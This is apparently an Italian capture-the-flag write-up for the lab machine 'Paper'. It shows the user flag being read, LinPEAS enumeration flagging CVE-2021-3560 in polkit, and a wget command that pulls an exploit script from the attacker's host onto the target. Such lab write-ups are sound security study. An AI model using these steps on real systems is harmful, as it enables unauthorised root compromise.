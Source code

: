 e abbiamo la nostra user flag

```bash
[dwight@paper ~]$ ls
bot_restart.sh  hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt
e1fc937f2dd51f0a60183222499255cf
[dwight@paper ~]$
```

# PRIVESC

Scarichiamo sulla macchina target [[LinEPAS.sh]] e lo eseguiamo 

```bash
════════════════════════════════════════╣ System Information ╠════════════════════════════════════════
                                        ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 4.18.0-348.7.1.el8_5.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 8.5.0 20210514 (Red Hat 8.5.0-4) (GCC)) #1 SMP Wed Dec 22 13:25:12 UTC 2021
lsb_release Not Found

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.29

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

```

Possiamo vedere che il CVEs Check ci segnala che la macchina è vulnerabile alla [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
> [!NOTA ] l'ultima versione di LinEPAS.sh (2023) NON rileva la CVE. ho trovato [questi](https://github.com/carlospolop/PEASS-ng/issues/339) riferimenti che sarebbero d'approfondire 

## CVE-2021-3560-Polkit-Privilege-Esclation

In Linux, polkit è un servizio di autorizzazione utilizzato per consentire ai processi non privilegiati di comunicare con processi privilegiati. Quando un utente o un processo con privilegi limitati desidera accedere a risorse che richiedono privilegi più elevati, il servizio di autorizzazione polkit prende una decisione di autorizzazione o negazione dietro le quinte oppure richiede una finestra di dialogo per ricevere ulteriore autorizzazione prima di concedere i privilegi necessari.
CVE-2021-3560 è una vulnerabilità di bypass dell'autenticazione che consente a un utente normale di elevare i propri privilegi a quelli di un utente root. Questo difetto potrebbe essere utilizzato da un utente locale non privilegiato per creare un nuovo amministratore locale, il che si traduce nella completa compromissione del sistema. Informazioni dettagliate sul funzionamento di CVE-2021-3560 possono essere trovate qui.

Durante la ricerca, troviamo questo [PoC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) su Github. 
Scarichiamo questo exploit e trasferiamolo sull'host remoto. 
```bash
[dwight@paper ~]$ wget 10.10.14.9:8000/poc.sh
--2023-10-31 08:09:34--  http://10.10.14.9:8000/poc.sh
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9627 (9.4K) [text/x-sh]
Saving to: ‘poc.sh’

poc.sh                                                     100%[========================================================================================================================================>]   9.40K  --.-KB/s    in 0.01s
```